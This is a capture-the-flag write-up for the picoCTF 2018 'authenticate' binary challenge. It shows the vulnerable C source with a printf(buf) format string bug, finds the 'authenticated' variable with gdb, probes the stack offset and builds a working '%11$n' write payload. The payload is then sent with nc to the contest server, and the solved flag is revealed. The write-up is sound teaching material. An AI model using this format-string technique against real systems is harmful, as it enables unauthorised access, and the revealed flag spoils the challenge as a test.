

### auth.c

We get a flag() function that prints our flag IF we are "authenticated". Authenticated is declared as int 0. So if we can change that to a value other than 0, we can easily print the flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
```
This section contains the vulnerability which is a format string exploit again. If we can find the address of authenticate we can write a value to it then print the flag.

```c
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

**$gdb ./auth**

**$info variables**

```
pwndbg> info variables 
All defined variables:

Non-debugging symbols:
0x080488a8  _fp_hw
0x080488ac  _IO_stdin_used
0x080489c4  __GNU_EH_FRAME_HDR
0x08048b08  __FRAME_END__
0x08049f08  __frame_dummy_init_array_entry
0x08049f08  __init_array_start
0x08049f0c  __do_global_dtors_aux_fini_array_entry
0x08049f0c  __init_array_end
0x08049f10  __JCR_END__
0x08049f10  __JCR_LIST__
0x08049f14  _DYNAMIC
0x0804a000  _GLOBAL_OFFSET_TABLE_
0x0804a038  __data_start
0x0804a038  data_start
0x0804a03c  __dso_handle
0x0804a040  __TMC_END__
0x0804a040  __bss_start
0x0804a040  _edata
0x0804a040  stdin
0x0804a040  stdin@@GLIBC_2.0
0x0804a044  stdout
0x0804a044  stdout@@GLIBC_2.0
0x0804a048  completed
0x0804a04c  authenticated   <=====Our target variable
0x0804a050  _end
pwndbg> 
```
Great we have the address we need to manipulate now lets do some basic testing.

```bash
python -c 'print "AAAA"+"%08x "*20' | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAA080489a6 f7ecf5c0 0804875a ffb811d0 00000000 f7f1c000 ffb81294 00000000 ffb81294 00000000 41414141 78383025Sorry, you are not *authenticated*!
~/ctf_writeups/pico2018/binary/authenticate# 
```

Counting the addresses our A's show up on the 11th spot. This means if we build a payload consisting of our authenticated variables address + %11$n it will write a value to that address.

```bash
python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | ./auth
~/ctf_writeups/pico2018/binary/authenticate# python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
~/ctf_writeups/pico2018/binary/authenticate# 
```

Great, lets do the same thing on the server

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/authenticate# python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | nc 2018shell.picoctf.com 43438
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0f2666af}
~/ctf_writeups/pico2018/binary/authenticate#
```
</details>